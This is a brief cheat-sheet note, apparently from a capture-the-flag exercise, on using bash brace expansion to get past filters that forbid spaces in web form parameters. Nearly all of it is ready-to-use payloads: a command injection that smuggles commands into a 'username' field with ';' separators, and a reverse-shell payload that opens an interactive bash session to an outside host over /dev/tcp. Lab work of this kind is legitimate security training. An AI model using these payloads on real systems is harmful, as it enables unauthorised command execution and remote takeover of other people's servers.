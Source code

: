 # Brace Expansion Technique

helps evading "no space allowed" filters

---

#### PoC

```
host=cozyhosting.htb&username={kanderson,-p,2000}
```

Sometimes u need to put the ; symbol in front and behind those, for command injection to work asw.

```
host=10.10.14.186&username=;{sleep,10};
```

#### RevShell Payload


```
host=10.10.14.186&username=;{bash,-c,'bash,-i,>&,/dev/tcp/10.10.14.186/1337,0>&1'};
```

